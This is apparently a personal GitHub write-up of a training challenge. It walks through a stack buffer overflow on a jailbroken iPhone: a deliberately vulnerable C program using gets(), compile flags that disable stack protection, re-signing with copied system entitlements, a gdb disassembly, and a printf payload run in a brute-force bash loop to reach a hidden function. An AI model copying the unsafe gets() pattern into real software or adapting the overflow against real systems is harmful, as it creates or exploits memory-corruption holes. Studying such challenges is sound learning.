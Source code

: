 # iOS Buffer Overflow attack

This program is the start of my journey. I always loved jailbreaking since I was young but I disliked programming (given by the D- I received in AP Computer science). It wasnt until university until I knew that I wanted to do things revolving around iOS. 
Eventually I switched my major to computer science and got into iOS development and it wasn't until recently I got into exploitation and the nitty gritty of iOS internals. This is the beginning of my journey and I hope you tear it apart because I will probably learn from it.

Im also doing this in VIM because I want to learn it so godspeed.

The challenges in these writeups are from [Billy Ellis](https://github.com/Billy-Ellis/Exploit-Challenges). Although Im going through his book at the time these may be different than the ones he has uploaded on github.

## The program
------
```
#include <stdio.h>
#include <stdlib.h>

void secret() {
    printf("You found the secret! Buffer overflow challenge completed!i\n");	
}
int main( int argc, char *argv[]) {
    char buff[8];
    printf("Enter a string: \n");
    gets(buff);
    printf("You entered: %s\n", buff);
	return 0;
}
```

Lets walk through this step by step. At the top is the header, <stdio.h> imports the standard input and output header, hence the "stdio" name. After that is the function named secret which prints out a statement that you've completed the challenge, more on that later.

After this is the main() function. This has a character buffer that is meant to store your input, specifically, 8 characters. After this statement is a printf asking for your input and then a gets(). This is where the vulnerability lies.

Essentially it takes the string that you entered "%s" and tries to stuff it inside of a 8 character array. Since gets doesn't do any checks on whether your input will actually fit inside or not, it's prone to buffer overflows. The point of a buffer overflow attack is essentially to give enough random input so that you can **overwrite** the link register aka the _return address_ and effectively redirecting the control flow of the program to wherever you desire.
Usually the place you redirect to *bypasses* the security measures put in place by the program.

Now, I am doing this on an iPhone SE running 11.2.6 on the unc0ver jailbreak. So I am compiling the program on the device.

## The setup

First I want to compile the program.
`
clang buffer_overflow.c -isysroot $THEOS/sdks/iPhoneOS11.2.sdk/ -fno-stack-protector -fno-pic -o buffer_overflow
`

First I use clang, which can be downloaded through cydia. Then the next argument is the program, in this case buffer_overflow.c and then isysroot and the path to it. I have theos installed on device with some sdks so I use the ios11.2 SDK which is necessary to compile on ios11. Finally come the arguments to essentially make the program vulnerable.

-fno-stack-protector stands for "force no stack protector", this tells the program to disable the stack smasher that prevents stack overflows from happening. These arguments are provided by Billy Ellis so I am adding them as well. -fno-pic stands for force no position independant code. This protects against buffer overflows by forcing the program to not have ASLR enabled. Address space layout randomization randomizes where executable are loaded into memory rather than keeping the addresses the same.

Although it doesn't completly remove ASLR it makes it more vulnerable (apparently).

**Definiton:** Address space layout randomization (ASLR) is a memory-protection process for operating systems (OSes) that guards against buffer-overflow attacks by randomizing the location where system executables are loaded into memory.
 
To make the executable run on the device it has to be signed. 

`
mobile@ven1xus-SE:~/programs/challenges$ ldid -e /bin/ls
`
```
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>platform-application</key>
	<true/>
	<key>com.apple.private.skip-library-validation</key>
	<true/>
</dict>
</plist>
mobile@ven1xus-SE:~/programs/challenges$ ldid -e /bin/ls > ent.plist
mobile@ven1xus-SE:~/programs/challenges$ ldid -Sent.plist buffer_overflow
```

The first command run essentially prints out the entitlement used for signing the ls command. I then take this entitlement and put it into a file that I can use to sign my own programs. Finally I sign buffer_overflow with the ls entitlement.

It is required to sign executables on iOS devices because it is a security precaution implemented by apple back in iOS 2 or something like that.


## Analysis

Now we have to analyze the binary, so I will use GDB (Gnu Debugger) or send it over to my MacBook using scp.

`
tommy@ven1xus-mbp:~$ scp -P 2222 mobile@localhost:~/programs/challenges/buffer_overflow ~/Desktop/bufferOverflow/
`

Keep in mind that my phone is hooked up via USB so thats why scp -P 2222 is used. This command works as follows:

1. **scp -P 2222 mobile@localhost:** - This means to login as the user "mobile" at your computers port 2222 which my iPhone is hooked up to. Meaning to login to the iPhone

2. **~/programs/challenges/buffer_overflow** - This is the location of the buffer_overflow file we need to acquire.

3. **~/Desktop/bufferOverflow/** - This is the location I want to move it do on my MacBook.

So now that you have the buffer_overflow executable where you want it run gdb on the executable.
`
mobile@ven1xus-SE:~/programs/challenges$ gdb buffer_overflow
`

and then disassemble the secret function so we can see where the start address of the function is.

```
(gdb) disas secret 
Dump of assembler code for function secret:
   0x0000000100007e7c <+0>:	sub	sp, sp, #0x20
   0x0000000100007e80 <+4>:	stp	x29, x30, [sp,#16]
   0x0000000100007e84 <+8>:	add	x29, sp, #0x10
   0x0000000100007e88 <+12>:	adrp	x0, 0x100007000
   0x0000000100007e8c <+16>:	add	x0, x0, #0xf58
   0x0000000100007e90 <+20>:	bl	0x100007f1c
   0x0000000100007e94 <+24>:	stur	w0, [x29,#-4]
   0x0000000100007e98 <+28>:	ldp	x29, x30, [sp,#16]
   0x0000000100007e9c <+32>:	add	sp, sp, #0x20
   0x0000000100007ea0 <+36>:	ret
End of assembler dump.
```

As you can see the memory address of the function is `0x0000000100007e7c`

## Exploit

Now we have to see how many characters gets() can put into the buffer by adding characters until an illegal instruction is thrown. For me it was ~33 characters.

```
mobile@ven1xus-SE:~/programs/challenges$ printf " AAAAAAAABBBBBBBBCCCCCCCCDDDDDDD" | ./buffer_overflow 
Enter a string: 
warning: this program uses gets(), which is unsafe.
You entered:  AAAAAAAABBBBBBBBCCCCCCCCDDDDDDD
Illegal instruction: 4
```

Now since iOS is in little endian format, we have to put the bytes at the end of that long string so the instruction pointer can point to the secret function like so.

`
mobile@ven1xus-SE:~/programs/challenges$ printf " AAAAAAAABBBBBBBBCCCCCCCCDDDDDDD\x7c\x7e\x00\x00\x01" | ./buffer_overflow 
`

Now since this will throw a segmentation fault, your going to have to write a script to run this like command until the secret function is found and the stars aligned. I wrote the script in bash like so.

```
#!/bin/bash
for i in {1..100000}
do
        printf " AAAAAAAABBBBBBBBCCCCCCCCDDDDDDD\x7c\x7e\x00\x00\x01" | ./buffer_overflow
done
```

Running this gives the follows eventually.

[Final output](complete.png)

**Congratulations you've done a buffer overflow on iOS!**

